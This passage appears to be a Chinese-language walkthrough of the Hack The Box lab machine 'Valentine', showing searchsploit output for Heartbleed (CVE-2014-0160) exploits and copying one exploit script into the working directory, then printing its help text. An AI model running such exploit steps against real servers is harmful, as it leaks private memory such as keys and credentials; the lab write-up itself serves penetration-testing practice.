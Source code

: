 心脏滴血是一个信息泄露漏洞，每次泄露的信息并不一样，所以需要多执行几次。



### 非MSF

搜索EXP：

```shell
┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ searchsploit heartbleed                                            
--------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                           |  Path
--------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSSL 1.0.1f TLS Heartbeat Extension - &#39;Heartbleed&#39; Memory Disclosure (Multiple SSL/TLS Versions)      | multiple/remote/32764.py
OpenSSL TLS Heartbeat Extension - &#39;Heartbleed&#39; Information Leak (1)                                      | multiple/remote/32791.c
OpenSSL TLS Heartbeat Extension - &#39;Heartbleed&#39; Information Leak (2) (DTLS Support)                       | multiple/remote/32998.c
OpenSSL TLS Heartbeat Extension - &#39;Heartbleed&#39; Memory Disclosure                                         | multiple/remote/32745.py
--------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

找个利用脚本进行利用

```shell
┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ searchsploit -m multiple/remote/32764.py
  Exploit: OpenSSL 1.0.1f TLS Heartbeat Extension - &#39;Heartbleed&#39; Memory Disclosure (Multiple SSL/TLS Versions)
      URL: https://www.exploit-db.com/exploits/32764
     Path: /usr/share/exploitdb/exploits/multiple/remote/32764.py
    Codes: CVE-2014-0346, CVE-2014-0160, OSVDB-105465
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/xavier/Desktop/HTB/012-Valentine/32764.py

┌──(xavier㉿kali)-[~/Desktop/HTB/012-Valentine]
└─$ python2 32764.py -h
Usage: 32764.py server [options]

Test for SSL heartbeat vulnerability (CVE-2014-0160)

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  TCP port to test (default: 443)
```
